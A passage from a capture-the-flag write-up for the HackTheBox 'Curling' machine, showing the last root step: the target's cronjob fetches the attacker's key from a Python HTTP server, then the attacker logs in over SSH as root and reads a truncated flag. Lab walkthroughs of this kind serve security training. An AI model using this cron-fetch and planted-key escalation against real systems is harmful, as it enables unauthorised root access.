 When the cronjob runs, it fetches our public key:

```
root@kali2:~/challenges/hackthebox/curling# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.150 - - [11/Dec/2018 16:52:56] "GET /key.txt HTTP/1.1" 200 -
```

We can now SSH in as root:

```
root@kali2:~/challenges/hackthebox/curling# ssh root@curling.htb
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 27 20:47:15 UTC 2018

  System load:  0.13              Processes:            181
  Usage of /:   46.3% of 9.78GB   Users logged in:      1
  Memory usage: 22%               IP address for ens33: 10.10.10.150
  Swap usage:   0%

  => There is 1 zombie process.


0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@curling:~# cat root.txt
82c198...
```